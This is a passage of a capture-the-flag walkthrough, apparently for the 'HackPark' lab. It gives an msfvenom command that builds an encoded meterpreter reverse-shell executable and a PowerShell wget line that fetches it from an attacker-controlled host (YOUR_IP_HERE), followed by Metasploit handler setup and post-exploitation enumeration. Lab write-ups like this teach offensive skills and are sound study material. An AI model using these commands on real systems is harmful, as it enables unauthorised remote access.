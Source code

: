 ```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 -e x86/shikata_ga_nai LHOST=YOUR_IP_HERE LPORT=4445 -f exe -o shell.exe
```

Next, we run a Python HTTP server on our local machine so that we can grab this executable file later on.

On our target machine, we first navigate to the **c:\Windows\Temp** directory as we have write permissions there. We then use `powershell` and `wget` to download the reverse shell from our local machine.

```
powershell -c wget http://YOUR_IP_HERE:8000/shell.exe
```

With the reverse shell successfully downloaded onto our target machine, we boot up `msfconsole` and use the **/multi/handler** module. We then set the appropriate options: **LHOST**, **LPORT** and **PAYLOAD**.

With our TCP listener running on Metasploit, we just have to execute the reverse shell on our target machine using `.\shell.exe`.

![screenshot13](../assets/images/hackpark/screenshot13.png)

And we have a meterpreter shell open!

---

### [ What is the OS version of this windows machine? ]

We can use the `sysinfo` command in meterpreter to find out the OS version, along with other information.

![screenshot14](../assets/images/hackpark/screenshot14.png)

OS Version: **Windows 2012 R2 (6.3 Build 9600)**

---

### Further enumerate the machine.
